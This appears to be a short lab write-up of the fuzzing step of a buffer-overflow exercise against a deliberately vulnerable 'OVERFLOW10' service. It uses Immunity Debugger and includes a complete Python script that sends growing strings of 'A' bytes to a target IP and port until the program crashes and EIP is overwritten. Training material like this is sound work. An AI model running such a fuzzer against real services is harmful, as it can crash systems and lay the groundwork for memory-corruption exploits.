 # Fuzzing
- We are going to*** Fuzz*** the application to find the approximate value of bytes at which the program crashes.

- Restart Immunity by using the Rewind button next to the red play arrow at the top. (Or Ctrl+F2)

- Then hit play. (or F9)

- We're going to use *fuzz.py* to send our vulnerable command and additional data, increasing by 100 bytes (A's) with each attempt.

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.136.83"

port = 1337
timeout = 5
prefix = "OVERFLOW10 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

- This should have overwritten the EIP.

>💡 Make sure to note the EIP

#bufferoverflow 